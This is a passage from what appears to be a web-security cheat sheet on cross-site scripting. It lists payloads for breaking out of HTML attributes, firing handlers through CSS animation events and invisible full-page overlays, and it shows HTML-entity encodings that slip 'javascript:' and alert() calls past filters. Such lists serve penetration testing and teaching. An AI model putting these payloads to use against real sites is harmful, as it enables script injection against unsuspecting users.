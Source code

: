 ```bash
" autofocus onfocus=alert(document.domain) x="
" onfocus=alert(1) id=x tabindex=0 style=display:block>#x #Access http://site.com/?#x t
```

**Style events**

```python
<p style="animation: x;" onanimationstart="alert()">XSS</p>
<p style="animation: x;" onanimationend="alert()">XSS</p>

#ayload that injects an invisible overlay that will trigger a payload if anywhere on the page is clicked:
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.5);z-index: 5000;" onclick="alert(1)"></div>
#moving your mouse anywhere over the page (0-click-ish):
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.0);z-index: 5000;" onmouseover="alert(1)"></div>
```

### Within the attribute

Even if you **cannot escape from the attribute** (`"` is being encoded or deleted), depending on **which attribute** your value is being reflected in **if you control all the value or just a part** you will be able to abuse it. For **example**, if you control an event like `onclick=` you will be able to make it execute arbitrary code when it's clicked.\
Another interesting **example** is the attribute `href`, where you can use the `javascript:` protocol to execute arbitrary code: **`href="javascript:alert(1)"`**

**Bypass inside event using HTML encoding/URL encode**

The **HTML encoded characters** inside the value of HTML tags attributes are **decoded on runtime**. Therefore something like the following will be valid (the payload is in bold): `<a id="author" href="http://none" onclick="var tracker='http://foo?`**`&apos;-alert(1)-&apos;`**`';">Go Back </a>`

Note that **any kind of HTML encode is valid**:

```javascript
//HTML entities
&apos;-alert(1)-&apos;
//HTML hex without zeros
&#x27-alert(1)-&#x27
//HTML hex with zeros
&#x00027-alert(1)-&#x00027
//HTML dec without zeros
&#39-alert(1)-&#39
//HTML dec with zeros
&#00039-alert(1)-&#00039

<a href="javascript:var a='&apos;-alert(1)-&apos;'">a</a>
<a href="&#106;avascript:alert(2)">a</a>
<a href="jav&#x61script:alert(3)">a</a>
```

**Note that URL encode will also work:**
